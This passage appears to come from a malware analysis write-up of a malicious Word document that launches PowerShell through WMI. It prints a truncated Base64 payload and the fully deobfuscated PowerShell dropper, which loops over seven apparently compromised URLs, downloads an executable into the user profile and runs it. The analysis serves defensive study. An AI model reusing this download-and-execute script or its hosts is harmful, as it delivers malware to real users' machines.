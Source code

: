 
The analysis showed that upon opening the document, `WINWORD.EXE` spawns a `powershell.exe` process. The parent `WINWORD.EXE` process was noted for using WMI scripts, a technique often used to launch processes stealthily without a visible window to evade user detection.

<img width="637" height="263" alt="image" src="https://github.com/user-attachments/assets/3f0ed4bb-5dc7-49c2-94d4-93e00a695508" />


### 3. Payload Deobfuscation

The child `powershell.exe` process contained a heavily obfuscated script.

<img width="647" height="388" alt="image" src="https://github.com/user-attachments/assets/e7f31db5-ed98-4ea5-b0be-ed703163e804" />


The obfuscated code was identified as a Base64 encoded string:
```
JABNADYAaABxADkAcAA1AD0AKAAoACcAUQAnACsAJwB0AHgAJwApACsAKAAnAGQAegBzACcAKwAnAG
gAJwApACkAOwAuACgAJwBuAGUAdwAnACsAJwAtAGkAdABlACcAKwAnAG0AJwApACAAJABlAE4AVgA6
... (truncated for brevity)
==
```

Using CyberChef, the script was deobfuscated to reveal its true purpose.
<img width="1377" height="780" alt="image" src="https://github.com/user-attachments/assets/5219d7a5-a57e-4b23-abaf-24cb61e1f446" />


The final, readable PowerShell script is as follows:
```powershell
# Define variables
$directoryName = "qtxdzsh";
$exeName = "e2937a4y.exe";
$downloadPath = "$env:USERPROFILE\sqpgdfi\qkgpwc\$exeName";

# Create directory
New-Item -Path "$env:USERPROFILE\sqpgdfi\qkgpwc" -ItemType Directory -Force;

# Set security protocol
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 -bor [Net.SecurityProtocolType]::Tls11 -bor [Net.SecurityProtocolType]::Tls;

# Define URL list
$urls = @(
    "http://fortcollinssathletefactory.com/wp-admin/i/",
    "http://getming.com/forum/p/",
    "http://gaffa-music.com/cgi-bin/UM/",
    "http://frankfurtelfarolillo.com/laseu/c7/",
    "http://evilnerd.org/cgi-bin/nUi/",
    "http://gapesmm.org/old/M/",
    "http://grml.net/wp/C/"
);

# Create WebClient
$webClient = New-Object Net.WebClient;

# Download and execute file
foreach ($url in $urls) {
    try {
        $webClient.DownloadFile($url, $downloadPath);
        if ((Get-Item $downloadPath).Length -ge 32254) {
            Invoke-Item $downloadPath;
            break;
        }
    } catch {}
}
```
